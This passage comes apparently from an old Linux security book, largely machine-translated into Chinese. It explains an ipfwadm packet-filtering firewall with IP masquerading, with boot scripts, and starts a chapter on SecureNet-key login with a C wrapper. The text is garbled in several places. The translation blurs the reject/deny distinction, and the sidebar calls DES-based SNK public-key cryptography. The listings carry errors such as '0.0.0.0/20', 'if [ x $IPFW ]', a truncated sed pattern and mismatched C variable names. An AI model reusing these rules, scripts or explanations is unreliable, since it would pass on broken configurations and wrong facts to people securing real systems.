然而，IP 伪装使防火墙能够修改由 host1 或 host2 发送的 IP 数据包中的 IP 地址。对于 host1 和 host2，机器 firewall 是一个“正常”的网关。来自 host1 或 host2 的所有非本地 IP 流量都将发送到地址为 193.78.174.33 的此防火墙。防火墙随后会将源地址，即 193.78.174.34 或 193.78.174.35，替换为防火墙的 IP 地址（在本例中为 194.109.13.150）。此外，防火墙会将其内部管理中存储来自 IP 数据包的足够信息以重建收到的应答。当互联网上的目标发送回复时，防火墙会将目标地址 194.109.13.150 替换为原始发送者的地址，即 193.78.174.34 或 193.78.174.35。

此伪装功能使用 ipfwadm 程序进行配置。你可以指定应进行伪装的源地址。你只需指定从本地网络到互联网的出站路由。反向操作由内核自动完成。

伪装相对于路由有几个优势。首先，你能够完全隐藏本地网络（从而隐藏本地地址）以免外界窥探。你只需公开一个 IP 地址，这也是额外的安全优势。其次，你无需配置路由守护进程。这将为你节省一些麻烦并避免潜在的安全隐患。第三，你无需在防火墙上安装代理守护进程。这也会避免潜在的安全隐患；防火墙上运行的守护进程越少越好。有了伪装，甚至可以完全取消 inetd。这限制了防火墙上开放的端口数量，从而减少了黑客可以探测以试图入侵的漏洞。


available, maybe even Linux v2.0. I assume any newer versions will have the same, or at least a very comparable, version of the firewall code in the kernel.

我有几个选择该内核版本的原因。首先，内核的防火墙代码已经改进。版本 1.3.68 允许你为三种类型的流量指定规则：入站、出站和转发。这反过来使你能够精确指定哪些流量是受信任的，哪些流量被视为危险的。此外，IP 伪装也得到了改进。

要使用新的防火墙规则集，你需要一个特殊的防火墙管理程序版本 ipfwadm。该版本“知道”这些新规则。你不能使用旧版本（最高到内核 v1.3.65），因为它们不兼容并且肯定会造成麻烦。你可以从 ftp://ftp.xos.nl/pub/linux 下载这个新的 ipfwadm 程序。你至少需要 2.0 beta 版本。当你开始构建这个新内核时，你首先需要运行以下命令来启用和禁用内核功能。

```
make config
```

在该配置期间，你将启用硬件平台的不同硬件设备。在我的防火墙设置中，我有一块用于连接本地网络的 SMC8013 以太网卡，并使用 PPP 拨号链路连接到互联网。 （该测试网络的完整布局如图 12.2 所示。）我选择启用 PPP 支持

## Figure 12.2 A sample firewall implementation using IP masquerading, which allows you to “hide” local systems behind one IP address.


as dynamically loadable modules. Unlike statically linked drivers, modules can be loaded and unloaded at runtime. With PPP configured as a loadable module, I can take the firewall off-line by just unloading the PPP module.

我还启用 SLIP 作为可动态加载模块的支持。即使我使用 PPP 而不是 SLIP 作为拨号互联网协议，我也需要启用 SLIP 以使拨号按需守护进程 diald（v0.12）可用。该守护进程会在检测到发往互联网的流量时自动呼叫 ISP。

清单 12.1 显示了与防火墙和伪装代码相关的所有 make config 选项。构建防火墙内核时，你应使用这些相同的响应。

配置内核后你需要运行以下命令来构建内核。

```
make dep; make clean; make zImage
```

构建后，你可以启动该内核作为防火墙的软件基础。你可以开箱即用编译 ipfwadm 和 diald。构建并安装它们后，它们即可使用。

## Listing 12.1 The kernel make config options related to the firewall and masquerading code.

* Networking options
Network firewalls (CONFIG_FIREWALL) [Y/n/?] Y
Network aliasing (CONFIG_NET_ALIAS) [N/y/?] N
TCP/IP networking (CONFIG_INET) [Y/n/?] Y
IP: forwarding/gatewaying (CONFIG_IP_FORWARD) [Y/n/?] Y
IP: multicasting (CONFIG_IP_MULTICAST) [Y/n/?] N
IP: firewalling (CONFIG_IP_FIREWALL) [Y/n/?] Y
IP: accounting (CONFIG_IP_ACCT) [N/y/?] N
IP: optimize as router not host (CONFIG_IP_ROUTER) [Y/n/?] Y
IP: tunneling (CONFIG_NET_IPIP) [N/y/m/?] N
IP: firewall packet logging (CONFIG_IP_FIREWALL_VERBOSE) [N/y/?] N
IP: masquerading (ALPHA) (CONFIG_IP_MASQUERADE) [Y/n/?] Y
* (it is safe to leave these untouched)
IP: PC/TCP compatibility mode (CONFIG_INET_PCTCP) [N/y/?] N
IP: Reverse ARP (CONFIG_INET_RARP) [N/y/m/?] Y
IP: Disable Path MTU Discovery (normally enabled) (CONFIG_NO_PATH_MTU_DISCOVERY) [N/y/?] N
IP: Disable NAGLE algorithm (normally enabled) (CONFIG_TCP_NAGLE_OFF) [N/y/?] N
IP: Drop source routed frames (CONFIG_IP_NOSR) [Y/n/?] N
IP: Allow large windows (not recommended if <16Mb of memory) (CONFIG_SKB_LARGE) [N/y/?] N

## Configuring the Firewall Rules

Again, the kernel’s firewall supports three distinct groups of packet filtering rules: input, output, and forward. Each of these groups has its own set of firewall rules and, thus, needs to be configured appropriately.

输入组规则描述允许进入防火墙的流量。这些规则适用于防火墙上的所有网络接口，而不仅仅是互联网接口。每条规则给出源地址、目的地址和接口地址的组合。当 IP 数据包匹配一条规则时，它会根据规则中的操作进行处理。

输出组规则指定哪些数据包可以离开防火墙。这些规则类似于输入规则；只是流量的方向不同。

## Listing 12.2 The ipfwadm options.

```
ipfwadm 2.0beta1, 1996/02/10

Usage: /sbin/ipfwadm -A command [options] {accounting}
/sbin/ipfwadm -F command [options] {forwarding firewall}
/sbin/ipfwadm -I command [options] {input firewall}
/sbin/ipfwadm -O command [options] {output firewall}
/sbin/ipfwadm -M -i [options] {masquerading entries}
/sbin/ipfwadm -h {print this help information}

Commands:
-i [policy] insert rule (no policy for accounting rules)
-a [policy] append rule (no policy for accounting rules)
-d [policy] delete rule (no policy for accounting rules)
-l list all rules of this category
-r reset packet/byte counters of all rules of this category
-f remove all rules of this category
-p policy change default policy (accept/masquerade/deny/reject)
-c check acceptance of IP packet

Options:
-p protocol (either tcp, udp, icmp, or all)
-S address/mask [port ...] source specification
-D address/mask [port ...] destination specification
-V address interface address
-W name interface name
-b bidirectional match
-e extended output mode
-k match TCP packets with ACK set
-n numeric output of addresses and ports
-o turn on kernel logging for matching packets
-t and xor and/or masks for TOS field
-v verbose mode
-x expand numbers (display exact values)
-y match TCP packets with SYN set and ACK cleared
```


正向组的规则指定哪些数据包可以从一个接口流向另一个接口。这些规则真正让防火墙成为防火墙，要么允许要么阻止流量。你还可以指定在转发组中数据包是否应进行伪装。转发规则是唯一可以配置伪装的地方。其他两个组只涉及物理接口上的流量。

这些规则是使用 ipfwadm 命令的各种选项构造的（清单 12.2）。熟悉这些选项非常重要。错误的规则可能会在你的防火墙中创建微妙的和不那么微妙的后门。

以下是最重要的选项。第一个选项说明规则所针对的组。-I 用于输入组，-O 用于输出组，-F 用于转发组。然后你可以指定规则应被添加（-a）、删除（-d）或插入（-i）。此选项的参数是规则的策略。该策略可以是 accept（接受数据包）、reject（拒绝数据包）或 deny（忽略数据包）。

reject 和 deny 都不允许匹配的数据包进入，但存在细微却重要的区别。被拒绝的数据包会导致向原始数据包发送者传输 ICMP 消息。发起被拒绝消息的用户会收到某种错误消息，提示“连接被拒绝”。该错误消息会向潜在入侵者提供一些信息。它告诉他们某个主机（发送 ICMP 消息的主机）“拥有”被拒绝的地址；因此，入侵者现在知道也许在该主机上其他尝试会成功。

被拒绝的数据包会被静默忽略；因此，入侵者无法判断是没有主机响应还是数据包只是被丢弃。我的建议是，对于你的 Internet 连接，始终使用 deny 策略而不是 reject 策略。本地网上的连接可以被拒绝，这样本地用户就会知道已被拒绝。

使用 ipfwadm 命令的 -D 和 -S 选项，你可以指定源地址和目标地址。你甚至可以对地址进行掩码以指定属于同一子网的主机组。这将为你节省大量输入并加快防火墙中的匹配过程。请注意，0.0.0.0 匹配所有 IP 地址（即全世界）。

接下来的两个重要选项是 -k 和 -y。这两个选项指定 TCP 头中的 ACK 和 SYNC 标志是否应被设置。（有关头部的更多信息，请参阅侧边栏“TCP/IP Headers”。）你可以使用这些选项阻止任何人向你的防火墙发起连接。虽然通常阻止源自 Internet 的 SYNC 数据包是个好主意，但它会导致 SMTP 和 FTP 协议出现问题，如后所述。

最后一个重要选项是 -p 选项。它指定默认策略。默认策略在没有规则匹配时被激活。这条规则有点像安全网：它关闭了数据包过滤中未指定的所有可能性。对于我的防火墙，我已将所有组的默认策略设置为 deny，因此所有未知数据包都会被静默忽略。清单 12.3 中显示了这些规则的几个示例。

## 图 12.3 TCP 协议的简化描述。



## TCP/IP Headers

每个在网络上传输的数据包都有多个头部。第一个是由物理传输介质决定的头部。在本例中，即为 Ethernet。这些头部与防火墙无关。

第二组头部是 IP 头部。IP 头部包含源 IP 地址和目标 IP 地址。防火墙代码会将这些地址与指定的规则进行检查。除这些地址外，头部还包含一个 TOS（服务类型）字段，用于描述数据包中的流量类型。例如，在 ftp 数据流量中，该字段将包含十六进制数字 8。TOS 字段并非在所有数据包中使用。

UDP 头部不包含太多信息；不过，它确实指定了源端口号和目标端口号。这些端口号在你想编写仅允许特定 UDP 服务的规则时很有用。

最后但同样重要的是，TCP 头部有许多字段，其中只有少数是感兴趣的。就像 UDP 头部一样，TCP 头部包含源端口号和目标端口号。它还包含许多 TCP 协议用于使 TCP 连接可靠的位字段。这些位字段用于指示数据包的状态。图 12.3 是 TCP 协议的简化描述。SYN 和 ACK 表示 TCP 头部中的 SYN 和 ACK 字段何时被设置。

你可以在防火墙规则中指定 SYN 和 ACK 字段应被设置还是清除。因此，你可以通过声明任何经由 Internet 接口到达防火墙的数据包的 SYN 位不得被设置，来阻止 Internet 上任何人向你的防火墙发起连接。然而，拒绝所有 SYN 数据包可能会导致 SMTP 和 ftp 服务出现问题。（请参阅正文中的“Special Input Rules”部分，了解有关拒绝 SYN 数据包问题的更多信息。）


## 特殊输入规则

一个普通的防火墙不会允许互联网上的客户端发起连接。所有与互联网接口相关的输入规则都设置了 -k 选项（TCP 头中必须设置 ACK 标志）。这会带来两个问题。然而。第一个问题是，如果你的防火墙将运行 SMTP 守护进程，拒绝所有 SYNC 数据包将导致 SMTP 守护进程挂起。如果互联网上的客户端想通过 SMTP 向你发送邮件，客户端会在你的防火墙上打开 25 端口。你可以通过为 SMTP 端口指定一个特殊的输入规则来绕过此问题。SMTP 规则应指定互联网上的任何人都可以连接到 25 端口，并且仅限 25 端口。该规则可能如下例所示。

```
# Add input rule for Internet -> me for mail (stops at firewall)
ipfwadm -I -a accept -P tcp -S 0.0.0.0/0 -D 194.109.13.150 25
```

此连接将在防火墙处停止，因此不需要相应的输出或转发规则。

### Listing 12.3 Examples of firewall packet filtering rules.

```
# Add output rule for local -> Internet
ipfwadm -O -a accept -P tcp -S 194.109.13.150 -D 0.0.0.0/0
```

此规则为互联网接口定义了一个输出规则。它声明发往互联网上任何目的地的包都被允许发出。此规则仅适用于 TCP 协议的包。

```
# Add input rules for clients -> Internet (will masquerade)
ipfwadm -I -a accept -P tcp -V 193.78.174.33 -S 193.78.174.34 -D 0.0.0.0/0
ipfwadm -I -a accept -P tcp -V 193.78.174.33 -S 193.78.174.35 -D 0.0.0.0/0
```

此规则描述了本地网主机发送到互联网上目的地的包。这些包将由转发规则进行伪装。如你所见，这些包必须在受信任接口 193.78.174.33 上接收（-V 选项）。

最后一个示例向你展示了一个伪装规则。

```
# Add forwarding rules for clients
ipfwadm -F -a masquerade -P tcp -S 193.78.174.34 -D 0.0.0.0/0
ipfwadm -F -a masquerade -P tcp -S 193.78.174.35 -D 0.0.0.0/0
```

如你所见，此处的策略是伪装，因此这些包将被伪装。

拒绝 SYNC 数据包的第二个问题是由 ftp（文件传输协议）造成的。在传输文件时，ftp 会打开两个连接。第一个连接是控制通道，ftp 使用它发送诸如更改目录、获取文件列表等命令。此控制连接由本地网上的机器发起，因此遵循正常流程（输出定向流量）。

然而，当 ftp 客户端检索目录或文件时，ftp 使用其第二个连接，即传输的数据连接。客户端向服务器发送一个端口命令，告诉服务器应为传输数据而打开客户端上的哪个端口。因此，数据连接是反向发起的（从外部进入本地网）。如果所有 SYNC 数据包都被拒绝，防火墙将拒绝此类连接，从而阻止数据传输。

通用解决方案是为此 ftp 数据连接定义一组特殊规则。因为服务器也使用端口 20 作为数据连接的一端，所以你可以通过包含一条接受在该端口号上发起的连接的规则来启用数据传输。更新的 Linux 内核现在完全支持这些特定端口的规则。相关规则在 Listing 12.4 中显示。

即使没有此规则，一些 ftp 客户端也可能成功地从你的主机传输数据。一些 ftp 客户端知道“被动”模式，在该模式下，客户端要求 ftp 服务器为传输数据创建端口。由此产生的传输使用 ACK 数据包完成，避免了 SYNC 限制。

### Listing 12.4 Examples of firewall packet filtering rules for ftp.

```
# Add input rule for Internet -> me for FTP data connection (masqueraded)
ipfwadm -I -a accept -P tcp -S 0.0.0.0/0 20 -D 194.109.13.150 1024:65535

# Add output rules for FTP data connection
ipfwadm -O -a accept -P tcp -S 0.0.0.0/0 20 -D 193.78.174.34 1024:65535
ipfwadm -O -a accept -P tcp -S 0.0.0.0/0 20 -D 193.78.174.35 1024:65535
```

第一条规则指定防火墙互联网接口上的传入数据包。其他规则指定到本地网主机上的传出数据包。请记住，这些数据包是通过防火墙（伪装）防火墙规则转发。


## 名称服务器

所有这些 IP 机制都需要访问名称服务器来解析各种目标主机的名称。将名称服务器运行在防火墙上并不是一个好主意。首先，始终是良好实践限制防火墙上的守护进程数量；守护进程越少，就越少给潜在入侵者可乘之机。其次，名称服务器映射表包含有关您本地网络结构的信息。因此，您需要一个名称服务器，但它需要在防火墙之外的某台机器上运行。

简单的解决方案是在本地网络中的一台机器上托管名称服务器。此本地名称服务器应配置为解析涉及本地机器的所有名称引用，并将无法解析的请求转发给互联网上的某个名称服务器。防火墙将需要特殊规则来正确处理这些发往外部名称服务器的请求 [Listing 12.5]。

所有名称服务器流量均基于 UDP 协议。防火墙本身可能需要联系名称服务器；这在规则 nameserver > me 和 me > nameserver 中有描述。其他规则用于名称服务器到互联网上机器的名称查询以及返回。在可能的情况下，流量被限制在端口 53，即名称服务器端口。

### Listing 12.5 Example firewall rules to forward all unresolved requests from the local nameserver host to an Internet nameserver.

```
# Add input rule for nameserver -> me
ipfwadm -I -a accept -P udp -V 193.78.174.33 -S 193.78.174.34 53 -D 193.78.174.33

# Add input rule for Internet -> nameserver (masqueraded)
ipfwadm -I -a accept -P udp -S 0.0.0.0/0 53 -D 194.109.13.150

# Add input rule for nameserver -> Internet (will masquerade)
ipfwadm -I -a accept -P udp -V 193.78.174.33 -S 193.78.174.34 53 -D 0.0.0.0/0 53

# Add forwarding rules for nameserver
ipfwadm -F -a masquerade -P udp -V 193.78.174.33 -S 193.78.174.34 53 -D 0.0.0.0/0 53

# Add output rule for me -> nameserver
ipfwadm -O -a accept -P udp -V $TRUSTIF -S 193.78.174.33 -D 193.78.174.34 53

# Add output rule for nameserver -> Internet
ipfwadm -O -a accept -P udp -S 194.109.13.150 -D 0.0.0.0/0 53

# Add output rule for Internet -> nameserver (masqueraded)
ipfwadm -O -a accept -P udp -V 193.78.174.33 -S 0.0.0.0/0 53 -D 193.78.174.34 53
```

## 修订启动过程

一旦您安装了内核和相关实用程序，您就可以开始修改内核启动文件。如果您使用 Slackware v3.0 构建 Linux 系统，您需要更改多个配置文件。这些文件中的大多数位于 /etc/rc.d 目录。此目录中的文件在系统更改其运行状态时执行，例如从单用户切换到多用户或反之。

首先，确保只启动必要的守护进程。默认配置还将启动 lpd 和其他程序，但防火墙上不需要这些。您也不需要 inetd，因为您不希望在防火墙上提供 telnet 和 ftp 等服务。有关 inetd 的更多信息，请参阅侧边栏 “No telnet Please”。

最后但同样重要的是，添加启动命令以在启动时自动设置防火墙规则。这可确保在停电后，您的系统不会以“完全开放”模式启动。

### Listing 12.6 add.put — part of the source for the rc.internet script and its associated files.

```
#!/bin/sh

IPFW="/sbin/ipfwadm"

# Assume eth0 is our trusted interface
TRUSTIF=`/sbin/ifconfig eth0|sed -n -e "s/^\tinet addr:\([0-9]*\.[0-9]*\.[0-9]*\.[0-9]*\).*/\1/p"`

if [ -x $IPFW ]; then
# Add input rule for nameserver -> me
$IPFW -i accept -P udp -V $TRUSTIF -S 193.78.174.34 53 -D 193.78.174.33
# Add input rule for Internet -> nameserver (masqueraded)
$IPFW -i accept -P udp -S 0.0.0.0/0 53 -D 194.109.13.150
# Add input rule for nameserver -> Internet (will masquerade)
$IPFW -i accept -P udp -V $TRUSTIF -S 193.78.174.34 53 -D 0.0.0.0/0 53
# Add input rule for Internet -> me for mail (stops at firewall)
$IPFW -i accept -P tcp -S 0.0.0.0/0 25 -D 194.109.13.150 25
# Add input rule for Internet -> me for FTP data connection (masqueraded)
$IPFW -i accept -P tcp -S 0.0.0.0/0 20 -D 194.109.13.150 1024:65535
# Add input rule for Internet -> local (masqueraded)
$IPFW -i accept -P tcp -k -S 0.0.0.0/0 -D 194.109.13.150
# Add input rules for clients -> Internet (will masquerade)
$IPFW -i accept -P tcp -V $TRUSTIF -S 193.78.174.34 -D 0.0.0.0/0
$IPFW -i accept -P tcp -V $TRUSTIF -S 193.78.174.35 -D 0.0.0.0/0
fi
```


## Listing 12.7 add.forward — rc.internet 脚本及其相关文件源代码的一部分。

```
#!/bin/sh
IPFW="/sbin/ipfwadm"

# Assume eth0 is our trusted interface
TRUSTIF=`/sbin/ifconfig eth0|sed -n -e 's/^\tinet addr:\([0-9]*\).*/\1/p'`

if [ x $IPFW ]; then
# Add forwarding rules for nameserver
$IPFW -F -a masquerade -P udp -V $TRUSTIF -S 193.78.174.34 53 -D 0.0.0.0/0 53
# Add forwarding rules for clients
$IPFW -F -a masquerade -P tcp -V $TRUSTIF -S 193.78.174.34 -D 0.0.0.0/0
$IPFW -F -a masquerade -P tcp -V $TRUSTIF -S 193.78.174.35 -D 0.0.0.0/0
fi
```

## Listing 12.8 add.output — rc.internet 脚本及其相关文件源代码的一部分。

```
#!/bin/sh
IPFW="/sbin/ipfwadm"

# Assume eth0 is our trusted interface
TRUSTIF=`/sbin/ifconfig eth0|sed -n -e 's/^\tinet addr:\([0-9]*\).*/\1/p'`

if [ x $IPFW ]; then
# Add output rule for me -> nameserver
$IPFW -O -a accept -P udp -V $TRUSTIF -S 193.78.174.33 -D 193.78.174.34 53
# Add output rule for nameserver -> Internet
$IPFW -O -a accept -P udp -S 194.109.13.150 -D 0.0.0.0/0 53
# Add output rule for Internet -> nameserver (masqueraded)
$IPFW -O -a accept -P udp -V $TRUSTIF -S 0.0.0.0/0 53 -D 193.78.174.34 53
# Add output rule for local -> Internet
$IPFW -O -a accept -P tcp -S 194.109.13.150 -D 0.0.0.0/0
# Add output rules for FTP data connection
$IPFW -O -a accept -P tcp -S 0.0.0.0/20 -D 193.78.174.34 1024:65535
$IPFW -O -a accept -P tcp -S 0.0.0.0/20 -D 193.78.174.35 1024:65535
# Add output rules for Internet -> clients, ACK only !! (masqueraded)
$IPFW -O -a accept -P tcp -k -S 0.0.0.0/0 -D 193.78.174.34
$IPFW -O -a accept -P tcp -k -S 0.0.0.0/0 -D 193.78.174.35
fi
```

我将这些规则命令放在 /etc/rc.d 目录中的一个特殊 rc 文件（rc.ineternet）里。务必确保 rc.local 脚本调用 rc.ineternet 脚本。采用这种安排，防火墙规则和 Internet 相关模块就能在每次启动周期都被保证加载。作为最后一步，该脚本应启动 diald 守护进程。rc.ineternet 脚本及其相关文件的完整源代码如清单 12.6–12.9 所示。

/etc/rc.d 目录中最重要的两个文件是 rc.inet1 和 rc.inet2。它们负责启动所有网络相关守护进程。为了确保你不会启动任何不必要的守护进程，你最好从 rc.ineternet 脚本中删除对这两个文件的调用，并显式添加你真正需要的守护进程的调用。清单 12.10 显示了我的 rc.ineternet 脚本。一旦你成功调整这些脚本，你将得到一台非常精简的防火墙机器，运行的进程最少。清单 12.11 显示了活动防火墙的典型进程列表。

## Conclusion

凭借本章中的系统，你可以在没有大量复杂应用程序的情况下构建 Internet 防火墙。你可以在本地网络上使用简单的配置，而无需代理守护进程。防火墙本身也是一台简洁的机器，运行的进程最少。

## Listing 12.9 diald.start — rc.internet 脚本及其相关文件源代码的一部分。

```
#!/bin/sh
/usr/sbin/diald /dev/cua0 -m ppp mtu 1500 local 194.109.13.150 \
remote 0.0.0.0 dynamic connect "/usr/sbin/chat -f /etc/ppp/pppcchat.xs4all" \
defaultroute reroute lock modem crtscts
```

## No telnet Please

如果你不想每次需要更改某些内容时都走到防火墙控制台去，就不建议启用 inetd 以便使用 telnet。相反，将防火墙通过专用串行电缆连接到另一台受信任的机器。然后你可以 telnet 到这台受信任的机器。登录到受信任机器后，你可以使用 tip 或 cu 连接到防火墙。这是进行防火墙“远程”维护的最安全方式。

## Listing 12.10 删除了对 rc.inet1 和 rc.inet2 的调用的示例 rc.internet 脚本。

```
#!/bin/sh

IPFW="/sbin/ipfwadm"
ROOTHOME=/root
MODDIR=/usr/src/linux/modules

echo -n "Configuring Internet software "

if [ -x $IPFW ]; then
 echo -n " firewall "
 $IPFW -F -p deny
 $IPFW -I -p deny
 $IPFW -O -p deny
fi
#
# Forwarding
#
if [ -x $ROOTHOME/add.forward ]; then
 $ROOTHOME/add.forward
fi
#
# Input
#
if [ -x $ROOTHOME/add.input ]; then
 $ROOTHOME/add.input
fi
#
# Output
#
if [ -x $ROOTHOME/add.output ]; then
 $ROOTHOME/add.output
fi

echo ""
fi
# Load modules now firewall is configured correctly
echo -n "Loading modules"

if [ -f $MODDIR/slh.c.o ]; then
 echo -n " slhc "
 /sbin/insmod $MODDIR/slh.c.o
fi

if [ -f $MODDIR/ppp.o ]; then
 echo -n " ppp "
 /sbin/insmod $MODDIR/ppp.o
fi
```


The Linux kernel used in this firewall, v1.3.68, is relatively new. It will have to prove itself in the long run, but it looks promising.

The hardest part of building a good firewall lies in building good packet rules. Careful analysis is important to building good rules, but the ultimate proof is thorough testing. Test these rules, test them again, and then test them some more.

One good test strategy is to probe your firewall using SATAN running on some Internet host. I cannot stress this enough — the heart of your security lies in the rules you specify for your firewall. The rules given here work for me, but that doesn’t mean they’ll give you a secure installation. I would never presume that they are completely watertight. If you use these rules verbatim, be warned: you do so at your own risk.

This caution isn’t meant to be intimidating; I simply want to make it clear to you that constructing comprehensive and effective rules is not a trivial task.

## Listing 12.10 (continued)

```
if [ -f $MODDIR/slip.o ]; then
echo -n "slip"
/sbin/insmod $MODDIR/slip.o
fi
# And finally, start the diald
if [ -x /etc/ppp/diald.start ]; then
echo "starting diald"
/etc/ppp/diald.start
fi
echo "Done"
```

## Listing 12.11 A sample process listing from an active firewall.

```
scarab/etc/rc.d# ps -ax
PID TTY STAT TIME COMMAND
1 ? S 0:01 init [5]
2 ? SWN 0:00 (kflushd)
3 ? SWN 0:00 (kswapd)
9 ? S 0:05 update (bdflush)
30 ? S 0:00 /usr/sbin/cron -l10
43 ? S 0:00 /usr/sbin/syslogd
45 ? S 0:00 /usr/sbin/klogd
97 ? S 0:02 /usr/sbin/syslogd -m ppp mtu 1500 local 194.109.13.150
remote 0.0.0.0 dynamic connect /usr/sbin/chat -f
593 ? S 0:00 /sbin/getty -m 160 38400 ttyS0 vt100
603 ppp S 0:00 sh
610 ppr R N 0:00 ps -ax
528 ppp S N 0:00 -bash
scarab/etc/rc.0#
```

## Chapter 13

## Remote System Security:
A SecureNet and
SLIP Solution

*Rob MacKinnon and Mark Dapoz*

As computing becomes more portable, the need for people to connect back to a “home base” becomes more important. The system administrator must balance the convenience of remote access for the users against the dangers of compromised system integrity. Security must be at the forefront, so it becomes necessary to do more than just authorize remote use of the system: the remote user must be authenticated every time the system is accessed. This will guarantee that whoever is at the other end of the telephone is truly who they claim to be.

At the Bergen Environmental Centre, we implemented two different security schemes to get the flexible remote access we needed. This chapter explains how we implemented a secured login scheme for the Centre. It describes how we modified the getty program and telnet daemon to include SecureNet authentication, how we administer the system, and some of the system’s benefits and shortcomings. It also describes how we implemented a dialback capability into SLIP so that system administrators could access and maintain the system from home.

## Connections from the Internet

To allow the telnet connections via the network from the Internet, we opened up the telnet port (port 23) on the gateway router to a specific machine on our LAN. At this point, there were two possible methods we could have chosen to implement the challenge/response login.

- Setup a firewall machine with restricted access into which the remote connection would be established. The login shell for the user would prompt with the challenge/response scenario. A successful response would present the user with a menu giving access to a restricted set of machines on the LAN.
- Modify the telnet daemon on the special machine in the Centre to give the initial login challenge. A successful response to the challenge would present the user with a single-try password prompt that, if successfully entered, would give the user a normal shell.

The first method had one particularly bad drawback. If the password file was not maintained properly, the user could be given a normal shell instead of the restricted shell. This meant that security was dependent on an administrative setup. We chose the second method because it proved to be more flexible for accessing machines in the Centre and it placed the responsibility for implementing the security in an executable module rather than an administrative setup (as in the firewall case). The drawback to this method was that it required access to the source code for the login program we wished to modify. Without this source code, the only option would have been a firewall machine.

The linchpin to our challenge/response scenario is the SecureNet encryption key (SNK) from Digital Pathways, Inc. This hardware key implements a simple mutual authentication scheme using DES as the encryption method (see the sidebar "About the SecureNet Key"). We used the C code provided by Digital Pathways for deciphering the DES key.

## Modified telnet Program

The telnetd, rshd, and rlogind programs are used to manage connections through a network. The telnetd daemon is launched by the inet daemon when inetd detects a TCP connection attempt on port 23; it executes the login program to prompt for a user ID/password combination. We modified the telnetd program to call our login wrapper program, snklogin, instead. The rshd and rlogind programs were not modified. This allowed local users to bypass the SNK challenge/response procedure for internal machines. In our security setup, the lack of SNK security on these programs did not present a problem. The gateway router turns back connection attempts coming from outside our local area network on the ports for rlogin, rsh, and rexec.


## 关于 SecureNet Key

SecureNet Key（SNK）是一种挑战/响应个人身份识别令牌，外形类似于小型口袋计算器。SNK 最初是为 Digital Pathway 的 SecureNet 门禁设备系列而设计的，但现在已作为独立产品提供。

SNK 具有一个电子芯片，实现了使用 DES 作为加密方案的公钥加密算法。（公钥密码学由 Whitfield Diffie 和 Martin Hellman 于 1976 年发明 [1]，以解决密钥管理问题。）每个参与者都有一对密钥：公钥和私钥。每个参与者的公钥都会公布，而私钥则保密。发送方和接收方无需共享秘密信息的需求被消除了：所有通信仅涉及公钥，且私钥永远不会被传输或共享。

在使用 SNK 之前，系统管理员必须用公钥对 SNK 进行初始化。公钥是一个 24 位随机数，每个 SNK 都是唯一的。在 SNK 用公钥初始化后，它会被交给用户，用户随后通过输入私钥——即四位个人识别号码（PIN）——来完成 SNK 的编程。在完成此步骤之前，SNK 无法使用。一旦初始化并准备就绪，只有被发放 SNK 的用户才能通过使用 PIN 来解锁设备以供使用。

在使用时，计算机将基于公钥计算一个挑战字符串。计算出的挑战始终是唯一的。用户将使用 PIN “打开” SNK 并输入挑战号码。SNK 将使用挑战号码和公钥来计算响应字符串。计算机也使用挑战号码和公钥来计算其期望的响应。如果用户对挑战字符串输入的响应与计算机计算出的响应相匹配，计算机则允许访问。

如需了解 SNK 的信息，请联系

Digital Pathways Inc.
201 Ravenloft Drive
Mountain View, CA
USA

或

Digital Pathways Inc.
5 Campbell Court
Campbell Rd
Bramley, Basingstoke
Hants RG26 5EG
(44)256-882191

## 参考文献

[1] Diffie, W. and M.E. Hellman. “New directions in Cryptography.” *IEEE Transactions on Information Theory*, IT-22:644-654, 1976.

包装程序，`snklogin`（清单 13.1 和 13.2），接受用户的 SNK 用户 ID，该 ID 存储在 `/etc/keyfile` 中（只要在 13.3 中列出）。与此 SNK 用户 ID 关联的 24 位共享密钥号码也存储在此文件中。在根据提供的 SNK 用户 ID 选择共享密钥后，`snklogin` 会提示用户输入从共享密钥计算出的挑战字符串并等待响应。如果 `snklogin` 计算出的响应与用户输入的不匹配

```
/* snklogin.c - front end to standard login program which first authenticates the
 * user using the SecureNet encryption key. Mark Dapaz Wed Dec 2 15:41:47 MET 1992
 */

#include <stdio.h>
#include <stdlib.h>
#include <strings.h>
#include <ctype.h>
#include <signal.h>
#include <setjmp.h>
#include <syslog.h>
#include <pwd.h>
#include "snk.h"
#include "pathname.h"
#include "des.h"

char snkey[8];
int flgason, oflg=0, hflg=0;
char *from_host = "unknown host";
char *from_ip = "location unknown";
char *user = NULL;

jmp_buf env;

main(argc, argv)
int argc;
char **argv;
{
    char challenge[9], response[9], snkey[8], reply[16];
    char md[16], in_id[9], to, message[1024];
    unsigned int oct1, oct2, oct3, oct4, oct5, oct6, oct7, oct8, cksum;
    register int ch;
    int i;
    int secured=0;
    extern char *optarg;
    extern int optind;
    FILE *in_file;
    extern int timeout();
    char *real_ipinfo;
    char *auth_class=NULL;
    int quit();

    /* list of hostnames that we allow through */
    char *hosts_allow[] = {"viceroy.bsc.no", "viceroy.bsc.no", "overlord.bsc.no", NULL };

    /* list of ip addresses that we allow through */
    char *ip_addr_allow[] = {"129.177.80.6", "129.177.80.64", "129.177.80.64", NULL };
```


## 列表 13.1（续）

```
signal(SIGALRM, timeout);
/* just die if anything goes wrong */
signal(SIGINT, quit);
signal(SIGINT, quit);
signal(SIGQUIT, quit);
signal(SIGILL, quit);
signal(SIGABRT, quit);
signal(SIGSEGV, quit);
signal(SIGTERM, quit);

/* zero out the snkkey first */
for (i=0; i<7; i++)
    snkkey[i] = NULL;

/* send messages to syslog */
openlog(argv[0], LOG_PID | LOG_CONS, LOG_AUTH);

while ((ch = getopt(argc, argv, "c:h:i:p")) != EOF) {
    switch (char) {
    case 'c':
        auth_class=optarg;
        break;
    case 'h':
        hflag++;
        from_host=optarg;
        break;
    case 'i':
        iflag++;
        from_ip=optarg;
        break;
    case 'p':
        pflag++;
        break;
    case '?':
    default:
        break;
    }
}

argc -= optind;
argv += optind;
if (argc)
    user=argv[0];

/* check for hosts we allow directly in */
if (hflag)
    secured+=allow(from_host, hosts_allow);
if (iflag)
    secured+=allow(from_ip, ip_addr_allow);

/* restricted access line (remote) */
if (auth_class) {
    struct passwd *pw=getpwnam(user);
    if (pw && !strcmp(pw->pw_class, auth_class))
        secured++;
}
```

